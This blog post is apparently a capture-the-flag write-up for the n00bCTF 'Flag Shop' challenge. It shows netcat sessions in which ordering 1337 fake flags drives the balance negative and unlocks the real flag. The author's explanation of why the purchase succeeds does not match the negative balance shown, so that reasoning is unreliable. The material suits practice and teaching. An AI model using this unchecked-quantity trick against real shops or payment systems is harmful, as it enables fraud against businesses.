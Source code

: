 ```yaml
---
title: "n00bCTF Pwn challenges"
date: 2023-05-25T13:25:32-05:00
tags: ['n00bCTF','Writeups', 'Pwn']
---
```

 
# [home](https://jjolley91.github.io/blog)

 # Intro

 These are the solutions I was able to find under the Web category. 

### Flag Shop

Prompt:
```
Come and buy yourself a flag! 
```
 We are given a netcat command to run the program:
 ```bash
 nc challs.n00bzunit3d.xyz 50267
 ```

We are told that we have 100 dollars, which is enough to buy 2 fake flags, but not enough to buy the real one.

```bash
Welcome to the flag shop! The flag costs $1337 but you have $100. You can buy the fake flag which costs $50
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
```

However, we seem to be able to buy more than 2 of the fake flag:

```bash
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
2
How many? 
1337
```
if we now check our balance we see that we have negative money left??

```bash
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
3
$-66750
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
```

The program does not seem to care that the value is negative, as long as it is greater than the price of the flag. we are now able to purchase the real one!

```bash
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
1
How many? 
2
n00bz{5h0p_g0t_h3ck3d_4nd_fl4g_g0t_570l3n!}
```

```
Flag: n00bz{5h0p_g0t_h3ck3d_4nd_fl4g_g0t_570l3n!}
```
